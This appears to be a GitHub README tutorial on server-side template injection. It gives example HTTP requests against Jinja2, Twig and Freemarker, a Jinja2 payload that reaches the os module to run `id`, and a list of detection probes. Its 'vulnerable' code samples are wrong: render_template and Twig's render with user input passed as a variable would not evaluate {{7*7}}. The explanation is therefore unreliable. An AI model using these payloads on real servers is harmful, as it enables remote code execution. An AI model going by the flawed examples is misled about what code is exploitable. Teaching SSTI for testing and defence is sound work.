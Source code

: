 # Description

**Server-Side Template Injection (SSTI)** is a web application vulnerability that occurs when user input is embedded directly into a server-side template, allowing an attacker to execute arbitrary code on the server. This vulnerability arises when the application fails to properly sanitize user input before using it in a template rendering engine.

### How Does SSTI Vulnerability Occur?

SSTI occurs due to insecure handling of template rendering in web applications. It happens when:
1. **User Input is Used in Templates**: The application allows user input to be directly embedded in server-side templates for rendering.
2. **Lack of Input Sanitization**: The user-provided data is not validated, sanitized, or properly escaped, making it possible for malicious input to be interpreted as template code.
3. **Insecure Template Engines**: Some template engines allow code execution or direct access to server resources if provided with crafted input.

Popular template engines vulnerable to SSTI include Jinja2 (Python), Twig (PHP), Freemarker (Java), and others.

### Where to Put an SSTI Payload?

An SSTI payload is placed in any input field, URL parameter, or HTTP header where the data is used in server-side templates. Common areas include:
- **Form fields that are used in rendering responses** (e.g., feedback forms, profile descriptions).
- **URL parameters that affect template rendering**.
- **HTTP request headers, if used in templates**.

### Examples of HTTP Requests with SSTI Payloads

Here are some examples of SSTI payloads used in various contexts:

#### 1. Basic SSTI in a Python Flask/Jinja2 Application

If an application uses Jinja2 and directly renders user input, a payload can be used to execute Python code.

**Malicious Payload (`{{7*7}}`)**:
- When rendered in Jinja2, this payload evaluates `7*7` and returns `49`.

**Example HTTP Request**:
```http
GET /greeting?name={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```
In this example, if the server-side code uses `name` in a Jinja2 template like this:
```python
return render_template('greeting.html', name=request.args.get('name'))
```
The output rendered would be `49` instead of `{{7*7}}`.

#### 2. Exploiting SSTI to Execute Arbitrary Code

Advanced SSTI payloads can execute arbitrary server-side commands or code.

**Malicious Payload for Jinja2 (`{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`)**:
- This payload tries to access the `os` module and execute the `id` command, potentially revealing user and group information.

**Example HTTP Request**:
```http
POST /feedback HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

message={{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```
If the `message` parameter is rendered directly in a Jinja2 template, it could execute the `id` command on the server.

#### 3. SSTI in a PHP Application Using Twig

For Twig template engines, SSTI payloads can be used to achieve code execution if the application does not filter user input.

**Malicious Payload (`{{7*7}}`)**:
- Like in Jinja2, this payload would be evaluated and produce `49`.

**Example HTTP Request**:
```http
GET /profile?bio={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```
If the application uses:
```php
echo $twig->render('profile.html', ['bio' => $_GET['bio']]);
```
It could render `49` on the profile page.

#### 4. Java Application Using Freemarker

In Freemarker, SSTI can occur if input is evaluated as part of the template rendering.

**Malicious Payload (`${7*7}`)**:
- In Freemarker, `${7*7}` would evaluate to `49`.

**Example HTTP Request**:
```http
POST /submit HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

comment=${7*7}
```
If the application uses the input in the template:
```java
template.process(dataModel, out);
```
It could output `49` instead of `${7*7}`.

SSTI vulnerabilities can lead to severe consequences, such as remote code execution or unauthorized access to sensitive data, making secure template handling crucial for web applications.

# SSTI Payloads For Detection
```html
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```
